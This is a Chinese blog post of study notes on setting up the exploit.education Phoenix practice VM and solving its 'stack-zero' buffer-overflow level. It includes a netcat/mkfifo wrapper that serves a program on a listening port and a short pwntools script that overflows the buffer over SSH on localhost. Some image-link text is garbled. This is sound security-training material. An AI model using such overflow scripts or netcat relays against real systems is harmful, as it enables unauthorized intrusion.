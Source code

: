 ```yaml
---
title: "[pwn笔记0]Phoenix环境搭建和stack-zero"
urlname: "[pwn笔记0]Phoenix环境搭建和stack-zero"

date: February 15, 2023 6:13 PM
tags: [pwn, stack]
---
```

找到一个学习pwn的项目[http://exploit.education](http://exploit.education/) ，决定让我临时抱佛脚学的pwn走向正轨，试试开个笔记系列（每次pwntools脚本都忘记怎么写），希望不要半路弃坑。定个小目标，至少把Phoenix系列做完吧。

## 环境配置

首先在more-downloads里下载phoenix的虚拟机系统镜像，根据你的架构选择。这就是靶机。在启动之前，我们需要安装`qemu-system-x86` （64位的也在同一个包里（archlinux））

运行`boot-balabala.sh`启动虚拟机，默认在2222端口开启ssh。用户名和密码都是user。

如果你想使用netcat来转发里面的程序，只需在启动脚本里添加另一个端口转发，这里放网络那一整行为例。

```bash
-netdev user,id=unet,hostfwd=tcp:127.0.0.1:2222-:22,hostfwd=tcp:127.0.0.1:3333-:3333
```

然后在虚拟机里执行

```bash
mkfifo io
```

并创建一个脚本文件（start.sh）

```bash
#!/bin/bash
cat io|$1 -i 2>&1|nc -l 3333 > io
```

然后你就可以通过`sh start.sh /opt/phoenix/amd64/stack-zero` 这样的方式来开netcat了，端口3333记得要和启动脚本里的匹配。

虚拟机里的gdb默认装了gef但是我不太会用，所以scp了一份peda进去。略过。

宿主机再装个非常方便的pwntools：`pip install pwntools`

## stack-zero

程序比较简单，直接用cutter了。
![](../images/[pwn笔记0]Phoenix环境搭建和stack-zero%20366826c7bb10483aa08121888111f984/code0.png)

（其实exploit.education的网页上给了源码）（开头的注释甚至是个冷笑话草草草）

我们现在要让s溢出到var_10h(changeme)，内容随便。打开gdb，计算一下距离，先随便输入点什么。

![Untitled](../images/[pwn笔记0]Phoenix环境搭建和stack-zero%20366826c7bb10483aa08121888111f984/Untitled.png)E%B00%5DPhoenix%E7![Untitled](../images/[pwn笔记0]Phoenix环境搭建和stack-zero%20366826c7bb10483aa08121888111f984/Untitled%201.png)0x660-0x620=0x40`

那么我们只要输出`0x41`个a即可

为了练习使用pwntools，写个代码。

这里直接用ssh连了，nc都不需要。

```python
from pwn import *

shell = ssh("user", "localhost", password="user", port=2222)
sh = shell.run("/opt/phoenix/amd64/stack-zero")
print(sh.recvline())
sh.sendline(b"a"*0x41)
print(sh.recvline())
shell.close()
```

成功

![Untitled](../assets/[pwn笔记0]Phoenix环境搭建和stack-ze![Untitled](../images/[pwn笔记0]Phoenix环境搭建和stack-zero%20366826c7bb10483aa08121888111f984/Untitled%202.png)